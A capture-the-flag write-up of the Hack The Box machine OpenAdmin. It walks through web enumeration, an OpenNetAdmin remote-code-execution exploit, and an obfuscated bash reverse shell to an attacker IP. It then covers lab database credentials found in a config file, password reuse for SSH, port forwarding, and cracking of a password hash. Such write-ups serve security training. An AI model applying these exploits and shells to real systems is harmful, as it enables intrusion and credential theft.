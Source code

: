 # OpenAdmin 

![image](https://user-images.githubusercontent.com/5285547/124369170-d137d380-dc60-11eb-90cd-9aca9d30f8ef.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## Port 80

Using gobuster i enumerated port 80 as only the default apache page loaded. 

```
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/] 
```

### Artwork

http://10.10.10.171/artwork/index.html

- Gobuster
```
/index.html           (Status: 200) [Size: 14461]
/images               (Status: 301) [Size: 321] [--> http://10.10.10.171/artwork/images/]
/main.html            (Status: 200) [Size: 931]                                          
/services.html        (Status: 200) [Size: 11749]                                        
/about.html           (Status: 200) [Size: 11156]                                        
/contact.html         (Status: 200) [Size: 8999]                                         
/blog.html            (Status: 200) [Size: 11523]                                        
/css                  (Status: 301) [Size: 318] [--> http://10.10.10.171/artwork/css/]   
/readme.txt           (Status: 200) [Size: 410]                                          
/js                   (Status: 301) [Size: 317] [--> http://10.10.10.171/artwork/js/]    
/fonts                (Status: 301) [Size: 320] [--> http://10.10.10.171/artwork/fonts/] 
/single.html          (Status: 200) [Size: 17627]  
```

### Sierra

http://10.10.10.171/sierra/index.html

- Gobuster
```
/contact.html         (Status: 200) [Size: 15853]
/blog.html            (Status: 200) [Size: 20477]
/index.html           (Status: 200) [Size: 43029]
/img                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/img/]
/service.html         (Status: 200) [Size: 22090]                                    
/css                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/css/]
/portfolio.html       (Status: 200) [Size: 13000]                                    
/js                   (Status: 301) [Size: 316] [--> http://10.10.10.171/sierra/js/] 
/about-us.html        (Status: 200) [Size: 20785]                                    
/elements.html        (Status: 200) [Size: 24524]                                    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.10.171/sierra/fonts/]
/vendors              (Status: 301) [Size: 321] [--> http://10.10.10.171/sierra/vendors/]
```

Not a lot on the above two sites.

### Music

http://10.10.10.171/music/index.html

- Gobuster
```
/img                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/img/]
/contact.html         (Status: 200) [Size: 6223]                                    
/blog.html            (Status: 200) [Size: 6728]                                    
/main.html            (Status: 200) [Size: 931]                                     
/category.html        (Status: 200) [Size: 23863]                                   
/index.html           (Status: 200) [Size: 12554]                                   
/css                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/css/]
/js                   (Status: 301) [Size: 315] [--> http://10.10.10.171/music/js/] 
/artist.html          (Status: 200) [Size: 20133]                                   
/playlist.html        (Status: 200) [Size: 8885] 
```

I found a login button but it redirects to ../ona

![image](https://user-images.githubusercontent.com/5285547/124369606-4c02ed80-dc65-11eb-9237-46b771469cd4.png)


## www-data

Going to http://10.10.10.171/ona/   
gives us the openNetAdmin interface with ```verson 18.1.1```

Finding an exploit online I crafted my own from this example: https://packetstormsecurity.com/files/162516/opennetadmin85141811-exec.txt

My Exploit: https://github.com/AssassinUKG/Writeups/tree/main/hackthebox/dare/openadmin/opennetadmin

```
bash openNetAdmin.sh http://10.10.10.171/ona/ id
```

Usng my shell I was able to get a reverseshell from the box. 

Command used (bash revshell + base64 encoded + urlencoding)
```
echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNS85OTg4IDA%2BJjE%3D | base64 -d| bash
```

![image](https://user-images.githubusercontent.com/5285547/124384929-76879180-dccb-11eb-97d1-1c6e1faadf0c.png)

Upgrade your shell as usual...
```
python3 -c 'import pty;pty.spwan("/bin/bash")'
stty raw -echo;fg
reset
xterm
```

Looking aroud the system I finally find the database config file loacated
```
/var/www/html/ona/local/config/database_settings.inc.php
```
```
'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```

## Jimmy (User 1)

Trying the password for the database on the system users. Let's us in as Jimmy  

![image](https://user-images.githubusercontent.com/5285547/124386200-227fab80-dcd1-11eb-9a06-80a8599a6d09.png)

The password also works for SSH! 

```
ssh jimmy@10.10.10.171
```

Checking out the local ports shows us an internal website being hosted on port 52846

```
jimmy@openadmin:~$ netstat -ltup 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:52846         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -                   
udp        0      0 localhost:domain        0.0.0.0:*                           - 
```

Let's port portward over SSH to see whats on the page. 

```
ssh jimmy@10.10.10.171 -L 80:127.0.0.1:52846
```

We are presented with a login screen. 

![image](https://user-images.githubusercontent.com/5285547/124386625-34fae480-dcd3-11eb-8da4-34d0ac0e93b4.png)

We should try to find more infomation in the files being hosted. 
```/var/www/internal```

Looking at the index.php page we can see a password hash, time to crack that! 

```
  <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

Using an online site, I got the password for the login

![image](https://user-images.githubusercontent.com/5285547/124388806-61ffc500-dcdc-11eb-97d4-898cb65ccad9.png)


